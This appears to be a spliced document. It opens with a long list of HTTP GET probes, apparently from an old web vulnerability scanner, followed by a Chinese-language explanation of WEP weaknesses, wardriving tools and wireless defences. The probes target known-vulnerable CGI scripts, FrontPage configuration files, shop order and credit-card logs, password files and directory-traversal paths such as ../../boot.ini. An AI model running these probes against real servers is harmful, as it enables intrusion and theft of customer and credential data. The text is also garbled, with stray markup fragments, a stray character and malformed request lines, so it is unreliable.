GET /_vti_pvt/writeto.cnf HTTP/1.0 & vbCrLf & vbCrLf
GET /_vti_pvt/svcacl.cnf HTTP/1.0 & vbCrLf & vbCrLf
GET /_vti_pvt/services.cnf HTTP/1.0 & vbCrLf & vbCrLf
GET /_vti_pvt/service.stp HTTP/1.0 & vbCrLf & vbCrLf
GET /_vti_pvt/service.cnf HTTP/1.0 & vbCrLf & vbCrLf
GET /_vti_pvt/access.cnf HTTP/1.0 & vbCrLf & vbCrLf
GET /_private/registrations.txt HTTP/1.0 & vbCrLf & vbCrLf
GET /_private/registrations.htm HTTP/1.0 & vbCrLf & vbCrLf
GET /_private/register.txt HTTP/1.0 & vbCrLf & vbCrLf
GET /_private/register.htm HTTP/1.0 & vbCrLf & vbCrLf
GET /_private/orders.txt HTTP/1.0 & vbCrLf & vbCrLf
GET /_private/orders.htm HTTP/1.0 & vbCrLf & vbCrLf
GET /_private/form_results.htm HTTP/1.0 & vbCrLf & vbCrLf
GET /_private/form_results.txt HTTP顾忌
```
GET /_vti_bin/_vti_adm/admin.dll HTTP/1.0 & vbCrLf & vbCrLf
```

<original_page_311>
```
- GET /cfdocs/cfmlsyntaxcheck.cfm HTTP/1.0 & vbCrLf & vbCrLf
- GET /cfdocs/snippets/viewexample.cfm HTTP/1.0 & vbCrLf &.vbCrLf
- GET /cfdocs/snippets/gettempdirectory.cfm HTTP/1.0 & vbCrLf & vbCrLf
```
</origina


 GET /cgi-bin/password.txt HTTP/1.0 & vbCrLf & vbCrLf

GET /cgi-bin/ax.cgi HTTP/1.0 & vbCrLf & vbCrLf

GET /cgi-bin/ax-admin.cgi HTTP/1.0 & vbCrLf & vbCrLf

GET /scripts/convert.bas HTTP/1.0 & vbCrLf & vbCrLf

GET /session/admlogin HTTP/1.0 & vbCrLf & vbCrLf

GET /cgi-bin/cachemgr.cgi HTTP/1.0 & vbCrLf & vbCrLf

GET /cgi-bin/query HTTP/1.0 & vbCrLf & vbCrLf

GET /cgi-bin/rpm_query HTTP/1.0 & vbCrLf & vbCrLf

GET /cgi-bin/dbparser.exe HTTP/1.0 & vbCrLf & vbCrLf

GET /cgi-bin/flexform.cgi HTTP/1.0 & vbCrLf & vbCrLf

GET /cgi-bin/responder.cgi HTTP/1.0 & vbCrLf & vbCrLf

GET /cgi-bin/imagemap.exe HTTP/1.0 & vbCrLf & vbCrLf

GET /search HTTP/1.0 & vbCrLf & vbCrLf

GET /cgi-bin/ HTTP/1.0 & vbCrLf & vbCrLf

GET /scripts/ HTTP/1.0 & vbCrLf & vbCrLf

GET http://www.sux.com/ HTTP/1.0 & vbCrLf & vbCrLf

GET /cfdocs/cfmlsyntaxcheck.cfm HTTP/1.0 & vbCrLf & vbCrLf

GET /cfdocs/snippets/fileexist.cfm HTTP/1.0 & vbCrLf & vbCrLf

GET /cfappman/index.cfm HTTP/1.0 & vbCrLf & vbCrLf

GET /scripts/cpshost.dll HTTP/1.0 & vbCrLf & vbCrLf

GET /samples/search/queryhit.htm HTTP/1.0 & vbCrLf & vbCrLf

GET /msadc/msadcs.dll HTTP/1.0 & vbCrLf & vbCrLf

GET /scripts/proxy/w3proxy.dll HTTP/1.0 & vbCrLf & vbCrLf

GET /cgi-bin/MachineInfo HTTP/1.0 & vbCrLf & vbCrLf

GET /cgi-bin/lwgate HTTP/1.0 & vbCrLf & vbCrLf

GET /cgi-bin/lwgate.cgi HTTP/1.0 & vbCrLf & vbCrLf

GET /cgi-bin/LWGate HTTP/1.0 & vbCrLf & vbCrLf

GET /cgi-bin/LWGate.cgi HTTP/1.0 & vbCrLf & vbCrLf

GET /cgi-bin/nlog-smb.cgi HTTP/1.0 & vbCrLf & vbCrLf

GET /cgi-bin/icat HTTP/1.0 & vbCrLf & vbCrLf

GET /cgi-bin/axs.cgi HTTP/1.0 & vbCrLf & vbCrLf

GET /publisher/ HTTP/1.0 & vbCrLf & vbCrLf

GET /cgi-bin/mlog.phtml HTTP/1.0 & vbCrLf & vbCrLf

GET /ssi/envout.bat HTTP/1.0 & vbCrLf & vbCrLf

GET /cgi-bin/archie HTTP/1.0 & vbCrLf & vbCrLf

GET /cgi-bin/bb-hist.sh HTTP/1.0 & vbCrLf & vbCrLf

GET /cgi-bin/nph-error.pl HTTP/1.0 & vbCrLf & vbCrLf

GET /cgi-bin/post_query HTTP/1.0 & vbCrLf & vbCrLf

GET /cgi-bin/ppdscgi.exe HTTP/1.0 & vbCrLf & vbCrLf

GET /cgi-bin/webmap.cgi HTTP/1.0 & vbCrLf & vbCrLf

GET /scripts/tools/getdrvs.exe HTTP/1.0 & vbCrLf & vbCrLf

GET /cgi-bin/upload.pl HTTP/1.0 & vbCrLf & vbCrLf

GET /scripts/pu3.pl HTTP/1.0 & vbCrLf & vbCrLf

GET /WebShop/logs/cc.txt HTTP/1.0 & vbCrLf & vbCrLf

GET /WebShop/templates/cc.txt HTTP/1.0 & vbCrLf & vbCrLf

GET /quikstore.cfg HTTP/1.0 & vbCrLf & vbCrLf

GET /PDG_Cart/shopper.conf HTTP/1.0 & vbCrLf & vbCrLf

GET /PDG_Cart/order.log HTTP/1.0 & vbCrLf & vbCrLf

GET /pw/storemgr.pw HTTP/1.0 & vbCrLf & vbCrLf

GET /iissamples/iissamples/query.asp HTTP/1.0 & vbCrLf & vbCrLf

GET /iissamples/exair/search/advsearch.asp HTTP/1.0 & vbCrLf & vbCrLf

GET /iisadmpwd/aexp2.htr HTTP/1.0 & vbCrLf & vbCrLf

GET /adsamples/config/site.csc HTTP/1.0 & vbCrLf & vbCrLf

GET /doc HTTP/1.0 & vbCrLf & vbCrLf

GET /html/../config.sys HTTP/1.0 & vbCrLf & vbCrLf

GET /cgi-bin/add_ftp.cgi HTTP/1.0 & vbCrLf & vbCrLf

GET /cgi-bin/architext_query.cgi HTTP/1.0 & vbCrLf & vbCrLf

GET /cgi-bin/w3-msql/ HTTP/1.0 & vbCrLf & vbCrLf

GET /cgi-bin/bigconf.cgi HTTP/1.0 & vbCrLf & vbCrLf

GET /cgi-bin/get32.exe HTTP/1.0 & vbCrLf & vbCrLf

GET /cgi-bin/alibaba.pl HTTP/1.0 & vbCrLf & vbCrLf

GET /cgi-bin/tst.bat HTTP/1.0 & vbCrLf & vbCrLf

GET /status HTTP/1.0 & vbCrLf & vbCrLf

GET /cgi-bin/search.cgi HTTP/1.0 & vbCrLf & vbCrLf

GET /scripts/samples/search/webhits.exe HTTP/1.0 & vbCrLf & vbCrLf

GET /aux HTTP/1.0 & vbCrLf & vbCrLf

GET /com1 HTTP/1.0 & vbCrLf & vbCrLf

GET /com2 HTTP/1.0 & vbCrLf & vbCrLf

GET /com3 HTTP/1.0 & vbCrLf & vbCrLf

GET /pt HTTP/1.0 & vbCrLf & vbCrLf

GET /con HTTP/1.0 & vbCrLf & vbCrLf

GET /ss.cfg HTTP/1.0 & vbCrLf & vbCrLf

GET /ncl_items.html HTTP/1.0 & vbCrLf & vbCrLf

GET /scripts/submit.cgi HTTP/1.0 & vbCrLf & vbCrLf

GET /adminlogin?RCpage/sysadmin/index.stm HTTP/1.0 & vbCrLf & vbCrLf

GET /scripts/srchadm/admin.idq HTTP/1.0 & vbCrLf & vbCrLf

GET /samples/search/webhits.exe HTTP/1.0 & vbCrLf & vbCrLf

GET /secure/.htaccess HTTP/1.0 & vbCrLf & vbCrLf

GET /secure/.wwwacl HTTP/1.0 & vbCrLf & vbCrLf

GET /adsamples/config/site.csc HTTP/1.0 & vbCrLf & vbCrLf

GET /officescan/cgi/jdkRqNotify.exe HTTP/1.0 & vbCrLf & vbCrLf

GET /ASPSamp/AdvWorks/equipment/catalog_type.asp HTTP/1.0 & vbCrLf & vbCrLf

GET /AdvWorks/e:quipment/catalog_type.asp HTTP/1.0 & vbCrLf & vbCrLf

GET /tools/newdsn.exe HTTP/1.0 & vbCrLf & vbCrLf

GET /scripts/iisadmin/ism.dll HTTP/1.0 & vbCrLf & vbCrLf

GET /scripts/uploadn.asp HTTP/1.0 & vbCrLf & vbCrLf

GET /scripts/uploadx.asp HTTP/1.0 & vbCrLf & vbCrLf

GET /scripts/upload.asp HTTP/1.0 & vbCrLf & vbCrLf

GET /scripts/repost.asp HTTP/1.0 & vbCrLf & vbCrLf

GET /scripts/postinfo.asp HTTP/1.0 & vbCrLf & vbCrLf

GET /scripts/iisadmin/default.htm HTTP/1.0 & vbCrLf & vbCrLf

GET /scripts/samples/details.idc HTTP/1.0 & vbCrLf & vbCrLf

GET /scripts/samples/ctguestb.idc HTTP/1.0 & vbCrLf & vbCrLf

GET /scripts/convert.bas HTTP/1.0 & vbCrLf & vbCrLf

GET /scripts/Fpadmcgi.exe HTTP/1.0 & vbCrLf & vbCrLf

GET /samples/isapi/srch.htm HTTP/1.0 & vbCrLf & vbCrLf

GET /index.asp::$DATA HTTP/1.0 & vbCrLf & vbCrLf

GET /main.asp%81 HTTP/1.0 & vbCrLf & vbCrLf

GET /domlog.nsf HTTP/1.0 & vbCrLf & vbCrLf

GET /log.nsf HTTP/1.0 & vbCrLf & vbCrLf

GET /catalog.nsf HTTP/1.0 & vbCrLf & vbCrLf

GET /names.nsf HTTP/1.0 & vbCrLf & vbCrLf

GET /domcfg.nsf HTTP/1.0 & vbCrLf & vbCrLf

GET /today.nsf HTTP/1.0 & vbCrLf & vbCrLf

GET /cgi-bin/pfdispaly.cgi HTTP/1.0 & vbCrLf & vbCrLf

GET /cgi-bin/input.bat HTTP/1.0 & vbCrLf & vbCrLf

GET /CFIDE/Administrator/startstop.html HTTP/1.0 & vbCrLf & vbCrLf

GET /GetFile.cfm HTTP/1.0 & vbCrLf & vbCrLf

GET /../../config.sys HTTP/1.0 & vbCrLf & vbCrLf

GET /orders/import.txt HTTP/1.0 & vbCrLf & vbCrLf

GET /config/import.txt HTTP/1.0 & vbCrLf & vbCrLf

GET /orders/checks.txt HTTP/1.0 & vbCrLf & vbCrLf

GET /config/check.txt HTTP/1.0 & vbCrLf & vbCrLf

GET /webcart/ HTTP/1.0 & vbCrLf & vbCrLf

GET /msadc/samples/adctest.asp HTTP/1.0 & vbCrLf & vbCrLf

GET /admisapi/fpadmin.htm HTTP/1.0 & vbCrLf & vbCrLf

GET /admcgi/contents.htm HTTP/1.0 & vbCrLf & vbCrLf

GET /_private/form_results.txt HTTP/1.0 & vbCrLf & vbCrLf

GET /_private/form_results.htm HTTP/1.0 & vbCrLf & vbCrLf

GET /_private/register.htm HTTP/1.0 & vbCrLf & vbCrLf

GET /_vti_pvt/service.cnf HTTP/1.0 & vbCrLf & vbCrLf

GET /_vti_pvt/service.stp HTTP/1.0 & vbCrLf & vbCrLf

GET /_vti_pvt/services.cnf HTTP/1.0 & vbCrLf & vbCrLf

GET /_vti_pvt/svcacl.cnf HTTP/1.0 & vbCrLf & vbCrLf

GET /_vti_pvt/writeto.cnf HTTP/1.0 & vbCrLf & vbCrLf

GET /_vti_pvt/access.cnf HTTP/1.0 & vbCrLf & vbCrLf

GET /_vti_bin/_vti_aut/author.exe HTTP/1.0 & vbCrLf & vbCrLf

GET /_vti_bin/_vti_aut/author.dll HTTP/1.0 & vbCrLf & vbCrLf

GET /cgi-bin/w2-msql HTTP/1.0 & vbCrLf & vbCrLf

GET /cgi-bin/wais.pl HTTP/1.0 & vbCrLf & vbCrLf

GET /cgi-win/wwwuploader.exe HTTP/1.0 & vbCrLf & vbCrLf

GET /cgi-bin/MachineInfo HTTP/1.0 & vbCrLf & vbCrLf

GET /cgi-bin/snorkerz.cmd HTTP/1.0 & vbCrLf & vbCrLf

GET /cgi-bin/snorkerz.bat HTTP/1.0 & vbCrLf & vbCrLf

GET /cgi-bin/dig.cgi HTTP/1.0 & vbCrLf & vbCrLf

GET /cgi-bin/AT-generate.cgi HTTP/1_before & vbCrLf & vbCrLf

GET /con/con HTTP/1.0 & vbCrLf & vbCrLf

GET /cgi-shl/win-c-sample.exe HTTP/1.0 & vbCrLf & vbCrLf

GET ../.. HTTP/1.0 & vbCrLf & vbCrLf

GET /cgi-bin/classified.cgi HTTP/1.0 & vbCrLf & vbCrLf

GET /cgi-bin/download.cgi HTTP/1.0 & vbCrLf & vbCrLf

GET ../../boot.ini HTTP/1.0 & vbCrLf & vbCrLf

GET /default.asp. HTTP/1.0 & vbCrLf & vbCrLf

GET /xxxxxxx...xxxxxxxxx/ HTTP/1.0 & vbCrLf & vbCrLf

GET /cgi-bin/testcgi.exe HTTP/1.0 & vbCrLf & vbCrLf

GET /cgi-bin/FormHandler.cgi HTTP/1.0 & vbCrLf & vbCrLf

GET /cgi-bin/cgitest.exe HTTP/1.0 & vbCrLf & vbCrLf

GET /cgi-bin/meta.pl HTTP/1.0 & vbCrLf & vbCrLf

GET /cgi-bin/test-cgi.tcl HTTP/1.0 & vbCrLf & vbCrLf

GET /cgi-bin/day5datacopier.cgi HTTP/1.0 & vbCrLf & vbCrLf

GET /cgi-bin/test.bat HTTP/1.0 & vbCrLf & vbCrLf

GET /cgi-bin/hello.bat HTTP/1.0 & vbCrLf & vbCrLf

GET /cgi-bin/webutils.pl HTTP/1.0 & vbCrLf & vbCrLf

GET /cgi-bin/tigvote.cgi HTTP/1.0 & vbCrLf & vbCrLf

GET /cgi-dos/args.cmd HTTP/1.0 & vbCrLf & vbCrLf

GET /neowebscript/test/senvironment.nhtml HTTP/1.0 & vbCrLf & vbCrLf

GET /neowebscript/tests/load_webenv.nhtml HTTP/1.0 & vbCrLf & vbCrLf

GET /neowebscript/tests/mailtest.nhtml HTTP/1.0 & vbCrLf & vbCrLf

GET /WebSTART%20LOG HTTP/1.0 & vbCrLf & vbCrLf

GET /cgi-bin/webwho.pl HTTP/1.0 & vbCrLf & vbCrLf

GET /cgi-bin/htsearch HTTP/1.0 & vbCrLf & vbCrLf


 - GET /cgi-bin/plusmail HTTP/1.0 & vbCrLf & vbCrLf
- GET /cgi-bin/dig.cgi HTTP/1.0 & vbCrLf & vbCrLf
- GET /cgi-bin/rmp_query HTTP/1.0 & vbCrLf & vbCrLf
- GET /cgi-bin/search.cgi HTTP/1.0 & vbCrLf & vbCrLf
- GET /cgi-bin/w3-msql HTTP/1.0 & vbCrLf & vbCrLf
- GET /cgi-bin/tpgnrock HTTP/1.0 & vbCrLf & vbCrLf
- GET /manage/cgi/cgiproc HTTP/1.0 & vbCrLf & vbCrLf
- GET /_vti_bin/_vti_aut/dvwsr.dll HTTP/1.0 & vbCrLf & vbCrLf
- GET /scripts/cart32.exe HTTP/1.0 & vbCrLf & vbCrLf
- GET /cgi-bin/ultraboard.cgi HTTP/1.0 & vbCrLf & vbCrLf
- GET /cgi-bin/ultraboard.pl HTTP/1.0 & vbCrLf & vbCrLf
- GET /scripts/cart32.exe/cart32clientlist HTTP/1.0 & vbCrLf & vbCrLf
- GET /scripts/c32web.exe/ChangeAdminPassword HTTP/1.0 & vbCrLf & vbCrLf
- GET /scripts/c32web.exe HTTP/1.0 & vbCrLf & vbCrLf
- GET /cgi-bin/form.cgi HTTP/1.0 & vbCrLf & vbCrLf
- GET /cgi-bin/message.cgi HTTP/1.0 & vbCrLf & vbCrLf
- GET /cgi-bin/cobalt/siteUserMod/siteUserMod.cgi HTTP/1.0 & vbCrLf & vbCrLf
- GET /cgi-bin/.fhp HTTP/1.0 & vbCrLf & vbCrLf
- GET /cgi-bin/excite HTTP/1.0 & vbCrLf & vbCrLf
- GET /cgi-bin/getdoc.cgi HTTP/1.0 & vbCrLf & vbCrLf
- GET /cgi-bin/webplus HTTP/1.0 & vbCrLf & vbCrLf
- GET /cgi-bin/bizdb1-search.cgi HTTP/1.0 & vbCrLf & vbCrLf
- GET /cgi-bin/cart.pl HTTP/1.0 & vbCrLf & vbCrLf
- GET /cgi-bin/maillist.pl HTTP/1.0 & vbCrLf & vbCrLf
- GET /cgi-bin/fpexplore.exe HTTP/1.0 & vbCrLf & vbCrLf
- GET /cgi-bin/whois.cgi HTTP/1.0 & vbCrLf & vbCrLf
- GET /cgi-bin/GW5/GWWEB.EXE HTTP/1.0 & vbCrLf & vbCrLf
- GET /cgi-bin/search/tidfinder.cgi HTTP/1.0 & vbCrLf & vbCrLf
- GET /cgi-bin/tablebuild.pl HTTP/1.0 & vbCrLf & vbCrLf
- GET /cgi-bin/displayTC.pl HTTP/1.0 & vbCrLf & vbCrLf
- GET /cgi-bin/cvsweb/src/usr.bin/rdist/expand.c HTTP/1.0 & vbCrLf & vbCrLf
- GET /cgi-bin/c_download.cgi HTTP/1.0 & vbCrLf & vbCrLf
- GET /cgi-bin/htitar.pl HTTP/1.0 & vbCrLf & vbCrLf
- GET /cgi-bin/enter.cgi HTTP/1.0 & vbCrLf & vbCrLf
- GET /cgi-bin/printenv HTTP/1.0 & vbCrLf & vbCrLf
- GET /cgi-bin/dasp/fm_shell.asp HTTP/1.0 & vbCrLf & vbCrLf
- GET /cgi-bin/cgiback.cgi HTTP/1.0 & vbCrLf & vbCrLf
- GET /cgi-bin/infosrch.cgi HTTP/1.0 & vbCrLf & vbCrLf
- GET /_vti_bin/_vti_aut/author.dll HTTP/1.0 & vbCrLf & vbCrLf
- GET /scripts/webbbs.exe HTTP/1.0 & vbCrLf & vbCrLf
- GET /config/mountain.cfg HTTP/1.0 & vbCrLf & vbCrLf
- GET /orders/mountain.cfg HTTP/1.0 & vbCrLf & vbCrLf
- GET /admin.php3 HTTP/1.0 & vbCrLf & vbCrLf
- GET /code.php3 HTTP/1.0 & vbCrLf & vbCrLf
- GET /bb-dnbd/bb-hist.sh HTTP/1.0 & vbCrLf & vbCrLf
- GET /reviews/newpro.cgi HTTP/1.0 & vbCrLf & vbCrLf
- GET /eatme.idc HTTP/1.0 & vbCrLf & vbCrLf
- GET /eatme.ida HTTP/1.0 & vbCrLf & vbCrLf
- GET /eatme.pl HTTP/1.0 & vbCrLf & vbCrLf
- GET /eatme.idq HTTP/1.0 & vbCrLf & vbCrLf
- GET /eatme.idw HTTP/1.0 & vbCrLf & vbCrLf
- GET /status.cgi HTTP/1.0 & vbCrLf & vbCrLf
- GET /PSUser/PSCOErrPage.htm HTTP/1.0 & vbCrLf & vbCrLf
- GET /log HTTP/1.0 & vbCrLf & vbCrLf
- GET /stats HTTP/1.0 & vbCrLf & vbCrLf
- GET /piranha/secure/passwd.php3 HTTP/1.0 & vbCrLf & vbCrLf
- GET /cgi-bin/sojourn.cgi HTTP/1.0 & vbCrLf & vbCrLf
- GET /cgi-bin/ews HTTP/1.0 & vbCrLf & vbCrLf
- GET /cgi-bin/dfire.cgi HTTP/1.0 & vbCrLf & vbCrLf
- GET /cgi-bin/spin_client.cgi HTTP/1.0 & vbCrLf & vbCrLf
- GET /cgi-bin/echo.bat HTTP/1.0 & vbCrLf & vbCrLf

### 无线局域网（WLAN）黑客攻击

无线黑客攻击是恶意黑客和破解者采用的较新、较有趣的技术之一。本节包含来自 TigerTools.net 上 D3v0ur 发布的一项研究的有用信息。如今，部署最广泛的无线局域网（WLAN）是 802.11b 网络。接入点随处可见，可插入笔记本电脑的 802.11b WLAN 网卡价格也相对实惠。但这些网络虽然价格低廉、易于安装，却存在两个关键的内置安全缺陷：数据保护机制薄弱和认证机制不完善。这使它们成为"路过式黑客攻击"（drive-by hack）的首选目标。

#### 为什么要使用加密

802.11 无线局域网中用于保护数据包的加密方案正式名称为**有线等效保密协议**（Wired Equivalent Protocol），简称 WEP。但由于存在一些根本性的安全缺陷，加之大多数企业并未启用 WEP，它或许更应被 infamous 地记住为"为什么要加密数据包"（Why Encrypt Packets）协议。来自伦敦、纽约和硅谷的独立调查初步报告显示，部署的大多数无线局域网根本没有使用 WEP。

WEP 内的弱点最初由来自英特尔、加州大学伯克利分校和马里兰大学的研究人员揭露，他们近期都发表了独立论文，阐述了在 WEP 中发现的各种漏洞。但最具破坏性的报告来自 Scott Fluhrer、Itsik Mantin 和 Adi Shamir，他们概述了一种被动攻击方式，Stubblefield、Ioannidis 和 Rubin 在 AT&T 实验室和莱斯大学基于 Shamir 等人论文中提出的攻击方法，通过捕获隐藏的 WEP 密钥实施了该攻击。这种攻击仅需数小时即可实现。WEP 中暴露的漏洞可追溯到标准中的两个问题：（1）初始化向量（IV）的局限性，加上（2）静态 WEP 密钥的使用，导致冲突概率非常高。当相同的 IV 与相同的 WEP 密钥在多个数据帧上使用时，IV 冲突会产生所谓的弱 WEP 密钥。当能够分析大量此类弱密钥时，就可以对 WEP 发起攻击，从而暴露共享密钥。

这一点值得重复强调，因为早期的一些报告推断 WEP 加密使用的流密码——RC4——是弱点所在。但事实并非如此，正如 RSA 实验室高级研究工程师 Håkan Andersson 博士所解释的："WEP 中暴露的漏洞可以追溯至初始化向量与 WEP 密钥的组合方式，以生成每个数据包的 RC4 密钥。某些 IV 会产生'弱'RC4 密钥，从而泄露关于 WEP 密钥的信息。"

这一发现的影响犹如大坝决堤。Shamir 报告发布仅一个月后，AirSnort 和 WEPCrack 等免费工具就以脚本形式出现在互联网上，任何人都可以用来攻击 WEP。AirSnort 作者声称，他们的代码只需从 2,000 个包含弱密钥的数据包中收集信息即可捕获 WEP 密钥。据估计，在使用 128 位 WEP 加密生成的 1,600 万个密钥中，有 3,000 个是弱密钥。（请记住，802.11b 实际上要求使用 40 位 WEP 加密，这更加脆弱。许多供应商如今正领先于规范一步，在其产品中提供 128 位 WEP 加密——但即使是这种更严密的安全措施，也容易受到新工具的侵害。）

像 AirSnort 这样的网络嗅探器分析弱密钥，以发现无线客户端与接入点之间的共享密钥。一旦共享密钥被发现，恶意攻击者就可以访问无线局域网，并能够回溯解密在暴露网络上传输的数据包。

针对 WEP 中发现的安全弱点，RC4 算法的发明者 Ron Rivest 在公开声明中建议："用户应考虑通过哈希函数（如 MD5）对基础密钥以及任何计数器或初始化向量进行预处理，来加强密钥调度算法。或者，可以通过丢弃伪随机生成器的前 256 个输出字节后再开始加密，来防止密钥调度算法中的弱点。这两种技术中的任意一种或两者兼用，都足以抵御[Fluhrer、Mantin 和 Shamir]对 WEP 和 WEP2 的攻击。"

> 这些嗅探程序可在 http://airsnort.shmoo.com/ 和 http://sourceforge.net/projects/wepcrack 找到。

#### 强认证

网络安全性仅与其所基于的认证系统同样强大。适当的认证技术可以挫败中间人攻击和拒绝服务攻击等常见攻击。在当前 802.11b 标准中，启用 WEP 后允许客户端通过基于密码的系统进行认证，但这会使系统容易受到刚刚描述的攻击。更糟糕的是，目前尚未确定接入点认证机制。

由 RSA Security、思科和微软推出的受保护可扩展认证协议（Protected Extensible Authentication Protocol，EAP）在新的 802.1x 标准中，改进了 802.11 标准（如 802.11b 或 802.11a）中的认证机制。该标准解决了三个关键问题：

- 保护网络免受恶意接入点的入侵。
- 概述了用户可以使用多种流行的认证方法向接入点进行强认证的方式。
- 允许用户在组成网络无线局域网的各个独立接入点之间漫游时进行强认证。


 ## 受保护的 EAP

受保护的 EAP 方案建议将 EAP 与传输层安全协议（TLS）结合使用。EAP 和 TLS 都是互联网上广泛使用的 IETF 标准。这两种流行协议的结合实现了客户端和服务器认证，从而保护无线局域网网络免受被动窃听者的攻击。

受保护的 EAP 分为两个阶段：TLS 阶段用于认证接入点，使用加密隧道来保护认证信息的交换——即使用户在不同的接入点之间漫游时也是如此；EAP 阶段则用于认证无线客户端的用户。

##### 第 1 阶段

使用 TLS 握手来认证无线客户端所连接的接入点。首先，无线客户端向后端服务器发送一条消息，宣布它已连接到无线接入点。该消息告知服务器应发起新连接，并指示客户端所支持的加密算法，以便双方能够安全地通信。后端服务器收到此消息后，会回应一个新的会话 ID、用于通信的算法列表，以及一个公钥证书，使客户端能够信任其用于建立网络连接的接入点。无线客户端验证服务器证书的签名和有效性，然后通过生成一个密钥并用从服务器证书获得的公钥加密该密钥来响应。这段受保护的信息被发送回服务器，如果服务器能够解密该信息，则服务器通过认证；因为只有服务器的私钥才能解密用其公钥加密的消息。经过最后一次交换后，接入点认证完成，并建立一个安全的 TLS 会话，以保护将在第 2 阶段传递的用户认证凭据。

##### 第 2 阶段

在受保护的 EAP 的第 2 阶段，通过使用 EAP 提供了额外的保护层，EAP 由无线客户端的终端用户使用，通过适当的 EAP 机制向用户发起挑战。适当的 EAP 机制包括密码、智能卡、数字证书或时间同步令牌（如 RSA SecurID 令牌），这些令牌产生一次性密码挑战。EAP 挑战被传递给连接到公司无线局域网上无线接入点的后端认证服务器。这里的灵活性是关键，因为 EAP 允许企业继续对其员工使用任何已部署的适当 EAP 方法，并将其扩展到无线局域网。

真正的收益将由那些在公司无线局域网内漫游并需要无缝连接的用户获得。用户需要移动性和便利性。如果他们每次从一个会议室移动到另一个会议室时都被要求重新认证，他们将愿意牺牲安全性来换取便利性。"这就是两周法则，"RSA Security 的系统工程师 Pete Wann 说，"如果用户感到不便，企业中的安全机制在两周内就会被移除。我们 repeatedly 看到这种情况。这确实强调了从一开始——在产品开发阶段——就构建用户友好型安全的重要性。"

这正是选择在 802.1x 标准中为受保护的 EAP 使用 TLS 的原因。利用 TLS 握手中提供的连接重建机制，允许用户在连接到同一后端服务器的不同接入点之间漫游时保持单一的无缝连接。如果会话 ID 仍然有效，无线客户端和服务器可以共享旧的密钥来协商新的握手，从而保持连接活跃且安全。

#### 思科应对加密密钥窃取

思科通过其用于 Aironet 设备的轻量级可扩展认证协议（LEAP）解决了加密问题。作为登录过程的一部分，客户端动态生成新的 WEP 密钥，而不是使用静态密钥。所有客户端都有唯一的密钥，这降低了（但不能消除）IV 冲突的风险。

### 结论

最佳解决方案可能是要求无线网络上的所有主机使用 IPSec。虽然这会带来性能损失，但它能解决冒充用户、监控用户数据等问题。各种 IPSec 实现支持使用证书和其他形式的强认证。Windows 2000 集成了 Kerberos、IPSec 和 Microsoft 认证方法，以及策略支持（即，到 foo 的流量必须加密，但到 bar 的流量不需要）。由于 IPSec 几乎得到普遍支持，而且 802.11 的速度通常较低（最高 11 兆比特，可能还要与其他用户共享），这个方案应该不会太难实施或难以向管理层推销。

除此之外，你应该在无线网络和网络的其余部分之间放置防火墙。除非用户通过适当的认证，否则他们应被限制在无线网络内，以减少损害。阿尔伯塔大学的公共以太网网络使用了类似的系统。本质上，用户通过 Kerberos 向服务器认证——Kerberos 能够抵抗被动监控和主动攻击——之后防火墙允许来自该 IP 地址的连接在一段时间内通过（在一段时间不活动后关闭）。然而，这仍然使攻击者能够访问无线网络上的其他人，因此用户机器上的终端安全仍然很重要。

### 终端用户保护

其他 802.11 产品提供了 WEP 之外的加密，但这种保护通常以牺牲互操作性为代价。用户也可以部署使用虚拟专用网络、安全套接层或优良保密协议的加密软件，但这可能意味着大量的时间和金钱投入。

### 保护你的 WLAN

对空中比特的关注改变了黑客的习惯。当网络还是有线的时候，wardialing 风靡一时。现在，黑客不再将拨号器对准电话交换机并在调制解调器应答时记录号码，而是采用了"wardriving"，即跳上汽车，携带配置适当的无线网络客户端来定位和访问（"LAN-jack"）无线网络。

大多数 wardriver 满足于获取高速互联网连接。配置不良的系统将允许 literally 任何人加入网络。而通常的黑帽入侵——漏洞利用、缓冲区溢出、网站篡改、恶意软件攻击——变得更加容易，因为不需要通过拨号或利用开放端口来渗透网络。

#### *并非有线等效的方案*

虽然比没有好，但 WEP 对于强大的安全性来说还不够好，因为它存在两个关键缺陷：加密脆弱且缺乏密钥管理。这意味着要么手动更改密钥，要么实施各个供应商的解决方案，而最好的解决方案是动态生成密钥。

Wardriver 使用 NetStumbler (www.netstumbler.com) 等程序从 LAN-jacked 的传输中获取大量详细信息。Airsnort (www.airsnort.net) 和 WEPCrack (www.wepcrack.sourceforge.net) 等黑客工具可以在几分钟内开始解码流量。

最糟糕的情况——而且确实经常发生——是 802.11b 设备上 WEP 被关闭，没有任何替代保护措施。换句话说，无线客户端以明文发送数据。Wardriver 甚至不需要费劲。

WEP 支持 64 位和 128 位密钥。然而，这两种密钥都是脆弱的，因为初始化向量（IV）在每种情况下都只有 24 位长。其 RC4 算法在其他实现（如 SSL）中被安全使用，但在 WEP 中却相当脆弱。

此外，使用 WEP 时，网络上所有接入点和客户端的密钥都必须手动管理。由于良好的安全性要求频繁更改密钥，这对除最小网络外的所有网络来说都是管理上的噩梦。每个接入点和客户端使用相同的密钥来加密和解密数据。

网络访问控制和客户端认证工具凸显了 802.11b 的局限性。该标准仅依赖基于硬件的接入点与客户端之间的认证，使用以下两种方法之一：开放或共享密钥。开放方法即 MAC 地址过滤，通过 802.11b 网卡的地址以明文识别客户端计算机。此外，维护和管理 MAC 地址列表对除最小网络外的所有网络来说都是不切实际的。共享密钥认证要求启用 WEP，且客户端和接入点上的密钥相同。

另一种 802.11b 访问安全方法使用服务集标识符（SSID），它被分配给一个或多个接入点以创建无线网络段。无线客户端必须配置正确的 SSID 才能访问网络，这提供了非常基本的安全性。但如果接入点被启用为"广播"其 SSID，这种安全性也将失效。这允许任何未配置 SSID 的计算机接收它并访问接入点。

### 专有解决方案

无线设备供应商通过某种形式的增强密钥管理来解决这些问题，包括加密和客户端认证。换取优于 WEP 的密钥管理的代价是锁定在专有系统中。例如，思科系统（www.cisco.com）、Agere 系统（www.agere.com）、Enterasys 网络（www.enterasys.com）和 Avaya（www.avaya.com）都在其系统中加入了密钥管理软件。

动态密钥管理解决了 802.11b 的管理难题，并阻止了黑客的攻击。例如，思科使用一个中央密钥服务器，在客户端级别创建、分发和轮换 RSA 公钥/私钥对用于认证。该服务器还生成和分发 RC4 密钥用于数据包加密。

拥有大量员工、业务合作伙伴以及广泛应用和访问方法（包括无线）的复杂企业需要认证服务器。对于基于用户的认证，建议使用 RADIUS/AAA。RADIUS 服务器可用于在允许客户端向接入点认证之前验证客户端。它可以集中管理，这对大型企业很重要，并且可以用于认证 VPN 客户端以及其他服务。


